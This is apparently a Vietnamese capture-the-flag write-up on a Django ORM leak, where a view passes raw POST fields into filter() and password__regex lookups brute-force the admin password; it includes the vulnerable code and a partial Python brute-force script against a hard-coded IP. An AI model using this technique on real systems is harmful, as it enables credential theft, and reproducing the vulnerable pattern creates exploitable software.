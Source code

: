 [Django QuerySet - Filter](https://www.w3schools.com/django/django_queryset_filter.php)

Tại bài viết này của w3school đã giới thiệu về Field lookup, nó hỗ trợ việc tạo ra các WHERE clause một cách cụ thể, một ví dụ:

<img width="1325" height="391" alt="image" src="https://github.com/user-attachments/assets/d85bb2b7-96c7-490f-9778-68827d6ed349" />  

Quay lại phần code của enpoint HomePage, ở đây sử dụng:

```python
user_data = parse_qs(request.body.decode('utf-8'))
user_data.pop('csrfmiddlewaretoken', None)
user_data = {k: v[0] for k, v in user_data.items()}
try:    users = []    user = User.objects.filter(**user_data).first()
```

Tại đây, ta có thể thêm tùy chỉnh các keywork argument (**kwags) vào trong filter() do `user_data` parse toàn bộ data trong request. Điều đó đồng nghĩa với việc ta có thể thêm các field lookup một cách tùy chỉnh để khai thác.

Ví dụ đơn giản như sau: nếu post data chứa `username=admin` thì backed sẽ thực hiện `User.objects.filter(username="admin").first()` thực hiện trả về kết quả đầu tiên của query. Nhưng nếu ta truyền `username=admin&password__regex=^u` thì `filter(username="admin", password__regex="u").first()` sẽ được thực thi và đồng thời áp dụng thêm điều kiện regex, nếu kết quả
 vẫn trả về thì đồng nghĩa với việc password của admin thỏa mãn regex 
^u.

[PayloadsAllTheThings/ORM Leak/README.md at master · swisskyrepo/PayloadsAllTheThings · GitHub](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/ORM%20Leak/README.md)

Ở tài liệu trên đã cung cấp một số cách để khai thác bao 
gồm việc sử dụng __startswith, __contains và __regex cho trường hợp của 
chúng ta. Logic để khai thác tương tự nhau: brute-force từng kí tự rồi 
quan sát kết quả trả về từ đó trích xuất dữ liệu. Ví dụ như ta có thể 
thử `password__startswith = 'abc'`, nếu kết quả trả về là tài khoản admin thì ta biết mật khẩu bắt đầu với 'abc', lặp lại quá trình để trích xuất hết mật khẩu.

Ta đang làm việc với Sqlite3 nơi LIKE clause không hỗ trợ case-sensitive. Vậy nên ta sẽ sử dụng field lookup `__regex` để trích xuất data.

<img width="893" height="240" alt="image" src="https://github.com/user-attachments/assets/a7c333e8-9b2f-4783-a2f1-93c30c80258a" />  

```python
import requests
import string
from concurrent.futures import ThreadPoolExecutor, as_completed

url = "http://103.197.184.163:8002/home/"
cookies = {
    'csrftoken': 'a1mcE6bavm8TNwMBxPSZDvf2o5xqlvhP',
    'sessionid': '0dxj9jvfz2ajqwf7e66tm4yad6xr5fwy'
}
headers = {
    'Content-Type': 'application/x-www-form-urlencoded'
}

charset = string.ascii_lowercase + string.ascii_uppercase + string.digits
found = "^u"

def send_req(c, prefix):
    current = prefix + c
    data = {
        'csrfmiddlewaretoken': cookies['csrftoken'],
        'password__regex': current
    }
    r = requests.post(url, headers=headers, cookies=cookies, data=data)
    if "admin" in r.text:
        return c
```